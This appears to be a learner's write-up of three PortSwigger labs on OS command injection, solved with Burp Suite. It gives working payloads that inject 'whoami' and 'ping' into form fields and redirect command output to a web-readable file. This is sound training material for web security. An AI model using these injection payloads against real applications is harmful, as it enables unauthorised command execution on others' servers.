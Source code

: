 # Lab

## Tool: Burp Suite

## Executing arbitrary commands

### Lab: OS command injection, simple case

#### source: <https://portswigger.net/web-security/os-command-injection/lab-simple>

* To solve the lab, execute the whoami command to determine the name of the current user.

Solution:

First, we need to check the stock of any goods. After, we have the payload as `productId=1&storeId=;whoami`.

## Blind OS command injection vulnerabilities

### Detecting blind OS command injection using time delays

#### Lab: Blind OS command injection with time delays

##### source: <https://portswigger.net/web-security/os-command-injection/lab-blind-time-delays>

* To solve the lab, exploit the blind OS command injection vulnerability to cause a 10 second delay.

Solution:

We have payload as `csrf=c8no2wEC7WKZeQZHBzdV50nys6IYckrY&name=abc&email=abc%40gmail.com&subject=abc&message=abc";+ping+-c+11+127.0.0.1;"`. I tried to inject the command into an email, but it wasn't successful. I think that message is enclosed in quotation marks, so we only need to close the message, inject the command after a quotation mark is added in, and finally void the restant quotation marks of the application by adding a new quotation mark.

### Exploiting blind OS command injection by redirecting output

#### Lab: Blind OS command injection with output redirection

##### source: <https://portswigger.net/web-security/os-command-injection/lab-blind-output-redirection>

* To solve the lab, execute the whoami command and retrieve the output.

Solution:

After consulting the solution in the above lab, I realized that I had not yet used the right method in an email. So, here is a new payload using an injected command in an email: `csrf=AySqM6Cq7BM1nUINM32UGMULTmIfGGek&name=abc&email=a||whoami+>+/var/www/images/test.txt||&subject=abc&message=abc`. After, only need to read file *test.txt* by payload as `/image?filename=test.txt`.


